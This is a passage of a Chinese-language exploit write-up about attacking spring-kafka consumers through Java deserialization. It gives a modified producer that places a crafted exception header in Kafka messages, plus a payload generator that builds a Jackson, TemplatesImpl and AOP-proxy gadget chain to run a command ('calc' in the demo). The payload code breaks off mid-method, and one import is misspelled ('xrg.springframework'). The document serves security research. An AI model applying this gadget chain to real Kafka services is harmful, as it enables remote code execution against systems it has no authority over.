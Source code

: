既然是`spring-kafka`的应用，大概率配有`spring-boot-starter-web`依赖（别问为什么，因为官方提供的Demo也依赖了spring-web）

那就打Spring-Web自带的Jackson利用链，参考网上师傅修改过后的稳定版本的链子。

修改生产者的代码：

```java
static {
    try {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    } catch (Exception e) {
        throw new RuntimeException(e);
    }
}
@Bean
public ApplicationRunner runner(KafkaTemplate<Object, Object> template) {
    return args -> {
        ProducerRecord<Object,Object> producerRecord = new ProducerRecord<>("myTopic","key",null);
        producerRecord.headers().add("springDeserializerExceptionValue", PayloadGeneration.getPayload("calc"));
        template.send(MessageBuilder
                      .withPayload("whatever")
                      .setHeader(KafkaHeaders.TOPIC, "myTopic")
                      .setHeader(SerializationUtils.KEY_DESERIALIZER_EXCEPTION_HEADER, PayloadGeneration.getPayload("calc")).build());
    };
}
```

```java
package com.demo.producer;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.springframework.aop.framework.AdvisedSupport;
import xrg.springframework.kafka.support.serializer.DeserializationException;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;

public class PayloadGeneration {
    public static byte[] ser(final Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream  oos= new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
    public static byte[] getPayload(String cmd) throws Exception {
        POJONode node = new POJONode(makeTemplatesImplAopProxy(cmd));
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        setFieldValue(val, "val", node);

        DeserializationException exception = new DeserializationException(val);
```